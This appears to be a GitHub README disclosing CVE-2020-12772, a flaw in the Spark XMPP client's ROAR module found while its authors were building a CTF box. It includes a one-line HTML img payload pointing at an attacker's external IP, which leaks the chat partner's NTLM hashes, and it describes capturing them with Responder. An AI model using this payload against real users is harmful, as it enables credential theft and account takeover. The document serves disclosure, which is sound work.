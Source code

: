 # CVE-2020-12772

## Description
When @anqr34z and myself, @theart42, were building a CTF box, we came accross an interesting
vulnerability in the Spark XMPP client and its ROAR module.

![Spark client](pictures/spark_client.png)

When we opened a chat with another user, we could send an `<img ` tag to that user with an
external URL as the source of that image, like this:

`<img src=[external_ip]/test.img>`

Each time the user clicks the link, or the ROAR module automatically preloads it, the external
server receives the request for the image, together with the NTLM hashes from the user that visits
the link, i.e. the user you are chatting with!

## Exploitation
For our CTF box, this was golden. By running responder, we could capture the hashes and use them
to gain access to the user account and escalate our prrivileges (depending on the user of course).

![Responder](pictures/responder.png)

## Mitigation
The developer hasa been notified and a fix is underway
